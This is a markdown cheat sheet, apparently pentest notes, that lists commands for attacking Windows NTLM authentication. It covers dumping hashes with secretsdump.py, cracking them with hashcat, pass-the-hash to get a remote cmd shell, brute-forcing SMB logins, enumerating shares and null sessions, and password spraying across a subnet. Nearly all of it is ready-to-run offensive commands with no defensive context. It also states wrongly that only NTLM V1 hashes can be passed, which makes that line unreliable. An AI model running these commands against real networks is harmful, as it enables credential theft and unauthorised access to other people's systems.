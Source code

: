 # NTLM Hashes

## Dumping Hashes with secretsdump.py

https://github.com/SecureAuthCorp/impacket

```
secretsdump.py DOMAIN/USERNAME:PASSWORD@IP
```

## Cracking NTLM Hashes with Hashcat

On Windows

```
hashcat64.exe -m 1000 hashfile.txt rockyou.txt -O
```

## Pass the hash

You can only pass NTLM V1 hashes

```
pth-winexe -U Administrator%LMHASH:NTLMHASH //IP cmd

crackmapexec smb IP -u "USERNAME" -H HASH --local-auth
```

## CrackMapExec

Brute Force

```
crackmapexec smb 10.10.10.184 -u USER_LIST -p pass.txt
```

List shares

```
crackmapexec smb 10.10.10.184 -u USER -p PASSWORD --shares
```

Null authentication

```
crackmapexec smb 10.10.10.184 --pass-pol -u '' -p ''
```

Test credentials on local network (password spraying)

```
crackmapexec 192.168.57.0/24 -u USERNAME -d DOMAIN.local -p PASSWORD
```
